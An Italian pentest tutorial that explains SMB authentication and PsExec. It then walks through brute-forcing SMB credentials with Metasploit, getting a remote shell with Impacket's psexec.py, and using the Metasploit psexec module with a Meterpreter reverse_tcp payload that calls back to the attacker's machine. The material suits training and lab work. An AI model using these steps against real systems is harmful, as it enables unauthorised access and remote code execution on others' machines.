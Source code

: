 # Exploiting SMB con PsExec

## Introduzione all’autenticazione SMB

Il protocollo **SMB (Server Message Block)** viene utilizzato nei sistemi Windows per la condivisione di file, stampanti e risorse di rete. SMB supporta due principali modalità di autenticazione:

1. **Autenticazione dell’utente** – richiede un nome utente e una password validi.  
2. **Autenticazione della risorsa condivisa** – richiede solo una password per accedere a una cartella condivisa, senza nome utente.

Durante la procedura di autenticazione SMB, il processo si svolge nel seguente modo:
- Il client invia una richiesta di autenticazione al server, specificando un nome utente.
- Il server risponde con una **stringa casuale (challenge)**.
- Il client cifra questa stringa con l’**hash della password dell’utente** e la invia al server.
- Il server, conoscendo l’hash della password, verifica la risposta.
Se la stringa corrisponde, l’autenticazione viene accettata.

---

## Che cos’è PsExec

**PsExec** è uno strumento sviluppato da Sysinternals (Microsoft) che consente di **eseguire comandi e processi su sistemi Windows remoti**.  
Può essere considerato un’alternativa più leggera di RDP: anziché accedere con un’interfaccia grafica, PsExec fornisce un accesso testuale simile al terminale, eseguendo comandi CMD da remoto.

Il suo funzionamento si basa sul protocollo SMB: ciò significa che può essere utilizzato per autenticarsi ed eseguire comandi su un host remoto **senza bisogno di vulnerabilità**, a condizione di possedere credenziali valide.

---

## 1 – Enumerazione delle credenziali con brute force

Uno dei modi più comuni per ottenere credenziali valide è il **brute force** sul servizio SMB.  
In Metasploit esiste un modulo apposito:

`use auxiliary/scanner/smb/smb_login` ⟶ modulo per tentare autenticazioni SMB. <br>
`set RHOSTS <IP>` ⟶ indirizzo target. <br>
`set USER_FILE <lista_username.txt>` ⟶ file contenente possibili username. <br>
`set PASS_FILE <lista_passwords.txt>` ⟶ file contenente possibili password. <br>
`run` ⟶ avvia il brute force. <br>

Se il modulo restituisce una coppia valida di credenziali, possiamo proseguire all’autenticazione.

---

## 2 – Accesso remoto con psexec.py (Impacket)

Lo strumento `psexec.py` della suite **Impacket** consente di autenticarsi e ottenere una shell CMD:

`psexec.py <username>@<IP> cmd.exe` ⟶ connessione remota tramite SMB con prompt dei comandi. <br>
si trova al path `/usr/share/doc/python3-impacket/examples/psexec.py` <br>
Dopo l’invio del comando, verrà chiesta la password. Inserendo quella corretta, si otterrà accesso al prompt di Windows con i privilegi dell’utente fornito.

Questo tipo di autenticazione è **totalmente legittima**, non sfrutta vulnerabilità, e viene spesso usata da amministratori di sistema per gestire host remoti.

---

## 3 – Alternativa con Metasploit

Metasploit offre anche un modulo per sfruttare SMB usando credenziali valide:

`use exploit/windows/smb/psexec` ⟶ modulo per eseguire comandi su target Windows. <br>
`set RHOSTS <IP>` ⟶ indirizzo del sistema bersaglio. <br>
`set SMBUser <username>` ⟶ nome utente. <br>
`set SMBPass <password>` ⟶ password. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta su cui ricevere la shell. <br>
`run` ⟶ avvia l’exploit. <br>

Questo modulo carica una reverse shell sul target e restituisce una sessione Meterpreter. Da lì:

`getuid` ⟶ mostra il contesto utente. <br>
`shell` ⟶ apre un prompt CMD. <br>

---
